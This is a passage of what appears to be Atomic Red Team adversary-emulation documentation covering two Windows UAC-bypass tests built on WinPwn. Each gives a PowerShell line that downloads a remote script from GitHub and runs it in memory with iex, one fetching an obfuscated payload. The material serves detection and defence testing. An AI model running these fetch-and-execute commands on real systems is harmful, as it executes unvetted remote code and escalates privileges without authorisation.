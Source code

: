 




<br/>
<br/>

## Atomic Test #20 - WinPwn - UAC Bypass DiskCleanup technique
UAC bypass using DiskCleanup technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 1ed67900-66cd-4b09-b546-2a0ef4431a0c






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
UACBypass -noninteractive -command "C:\windows\system32\cmd.exe" -technique DiskCleanup
```






<br/>
<br/>

## Atomic Test #21 - WinPwn - UAC Bypass DccwBypassUAC technique
UAC Bypass DccwBypassUAC technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 2b61977b-ae2d-4ae4-89cb-5c36c89586be






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/obfuscatedps/dccuac.ps1')
```





